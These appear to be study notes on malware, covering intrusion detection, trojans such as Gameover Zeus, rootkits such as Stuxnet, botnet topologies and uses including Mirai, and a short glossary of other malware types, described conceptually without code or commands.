An **intrusion detection system** (**IDS**) at host level is a process running on a host that detects local malware; on the network level, it monitors all traffic. It can have either **signature based detection** (identifies known pattern) or **anomaly based detection** (attempts to identify behaviour different than legitimate). Using signature based detection has low false alarm rates, but is expensive and cannot detect new attacks. Using anomaly based detection can detect new attacks but raises a high number of false alarms

---

### Trojan Horses

A **trojan horse** is a malware that appears to perform a desirable function but also performs undisclosed malicious activities. It requires users to explicitely run the program. It cannot replicate but can do any malicious activity (e.g. spy on sensitive user data (spyware), allow remote access (backdoor), base for further attacks or damage routines (file corruption))

A example of trojan horse is the Tiny Banker Trojan (2012) or the Gameover Zeus (2013). The goal of these trojan was to steal sensitive data (e.g. banking codes). They have two modes of operation: 

1. sniff packets to learn when a user visits a banking website and then steal credentials before they are sent (using keylogger)
2. sniff packets to learn when a user visits a banking website, steal appearence from website and then ask questions to user (e.g. password) on a pop-up that the trojan then sends to an arbitrary server

Since trojan horse need a user to run them, the only defense against trojan horse is educating the users!

---

### Rootkits

A **rootkit** is some adversary controlled code that takes residence deep within the TCB (e.g. OS) of a system. It hides its presence by modifying the OS. Rootkits are generally installed by an attacker after a system has been compromised (e.g. a worm installs a rootkit). They are difficult to detect and allow the adversary to return on a later time. They can replace system programs with trojaned versions, modify kernel data structures to hide processes, files and network activities...

The defense is difficult because it requires intergrity checkers at kernel level

A famous example of a rootkit is Stuxnet (2010) that was distributed by a worm. It attacks SCADA (control systems for robots/activators/...) of Iran's nuclear power plants.

Stuxnet has 3 modules:

1. Worm: spread Stuxnet's payload (enter intranet on a USB)
2. Link file: executed malicious code
3. Rootkit: hide the presence of malicious file to avoid detection

---

### Botnets

**Botnets** allow attacks at scale! They are multiple (maybe millions) compromised hosts called zombies or bots under the control of a single entity using a bot-net command & control (C&C). This implies that the C&C machine is a single point of failure: if the machine gets taken down, the hacker looses control of the botnet

Botnets can adopt different topologies (structures):

- **Star topology**: the hacker controls the C&C machine which has a list of all the bots. The C&C machine communicates with the bots
- **P2P topology**: this method has no C&C! The hacker interacts with a few bots which interacts with other bots. This is diffcult to manage for the hacker. Moreover, the botnet can be taken down by a defender using a Sybil attack
- **Hybrid topology** (this is what is often used): multiple C&Cs communicate through P2P and each C&C communicates with its list of bots. This way, if one of the C&C is taken down, the rest of the C&Cs can still perform normally

The goals/uses of a botnet could be rental (pay me money and I'll let you use my botnet), DDoS extortion (pay me or I take down your legitimate business), bulk traffic selling (pay me to boost visit counts on your website), click fraud (simulate clicks on advertised links to generate revenue), distribute ransomware (I've encrypted your hard drive, pay), advertise products (pay me I will leave comments all around the web), bitcoin mining, ...

A very famous botnet is called Mirai (2016) which targeted IoT devices (they have small CPUs and small protection mechanisms and use old communication protocols such as telnets to communicate). Mirai source code was published and variants appear all the time (e.g. Wicked (2018) which scans port 8080, 8443, 80 and 81 to attempt to locate vulnerable, unpatched IoT devices running on those ports)

To defend against botnets, we need to attack the C&C (e.g. hijack/poison DNS to route traffic to black hole) or setup honeypots which a vulnerable computers that serve no purpose other than to attract attackers and study their behavour in controlled environments

---

### Other malwares

- rabbit: code that replicates itself w/o limit to exhaust resources
- logic (time) bombs: code that triggers action when condition (time) occurs
- dropper: code that drops other malicious code
- tool / toolkit: program used to assemble malicious code (not malicious itself)
- scareware: false warning of malicious attack


